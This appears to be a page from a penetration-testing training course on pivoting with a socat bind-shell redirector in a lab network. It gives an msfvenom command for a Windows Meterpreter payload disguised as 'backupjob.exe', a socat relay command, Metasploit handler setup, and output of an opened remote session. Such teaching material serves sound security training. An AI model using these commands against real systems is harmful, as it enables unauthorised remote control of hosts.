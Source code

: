 ## Socat Redirection with a Bind Shell


Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target.

### Creating the Windows Payload

```
 msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443
```

We can start a socat bind shell listener, which listens on port 8080 and forwards packets to Windows server 8443.
```
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

### Configuring & Starting the Bind multi/handler
```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

### Establishing Meterpreter Session
```
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```
## SSH for Windows: plink.exe

Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies. 
